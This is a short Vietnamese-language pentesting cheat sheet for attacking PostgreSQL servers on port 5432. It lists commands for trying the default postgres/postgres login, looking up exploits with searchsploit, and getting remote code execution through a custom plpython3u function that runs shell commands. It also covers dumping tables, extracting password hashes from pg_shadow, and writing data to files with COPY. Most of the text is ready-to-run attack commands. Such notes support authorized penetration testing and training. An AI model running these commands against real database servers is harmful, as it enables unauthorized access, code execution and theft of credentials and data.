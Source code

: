 # PostgreSQL (Port 5432)

## Connect

### psql

Kết nối tới máy chủ PostgreSQL với thông tin đăng nhập và cổng cụ thể:

```
psql -h <ip> -p <port> -U <username> -W
```

***

## Attack Vectors

### Đăng nhập với thông tin mặc định

Thử đăng nhập với thông tin đăng nhập mặc định hoặc yếu như `postgres`/`postgres`:

```
psql -h <ip> -p 5432 -U postgres -W
```

### Khai thác lỗ hổng đã biết

Tìm kiếm lỗ hổng công khai cho phiên bản PostgreSQL cụ thể bằng searchsploit:

```
searchsploit postgresql <version>
```

### Khai thác RCE qua tiện ích mở rộng

Tạo và thực thi tiện ích mở rộng tùy chỉnh để chạy mã hệ thống (yêu cầu quyền quản trị):

```
CREATE EXTENSION IF NOT EXISTS plpython3u;
CREATE OR REPLACE FUNCTION sys_exec(text) RETURNS text AS $$
import os
return os.popen(args[0]).read()
$$ LANGUAGE plpython3u;
SELECT sys_exec('whoami');
```

***

## Post-Exploitation

### Liệt kê cơ sở dữ liệu và bảng

Liệt kê cơ sở dữ liệu, chuyển đổi cơ sở dữ liệu, và liệt kê bảng:

```
\l
\c <db_name>
\dt
```

### Trích xuất dữ liệu từ bảng

Trích xuất dữ liệu từ bảng cụ thể:

```
SELECT * FROM <table_name>;
```

### Trích xuất hash

Lấy tên người dùng và hash mật khẩu từ bảng pg\_shadow:

```
SELECT usename, passwd FROM pg_shadow;
```

### Truy cập hệ thống tệp

Đọc hoặc ghi tệp trên hệ thống nếu có đủ quyền:

```
COPY (SELECT * FROM <sensitive_table>) TO '/tmp/sensitive_data.txt';
```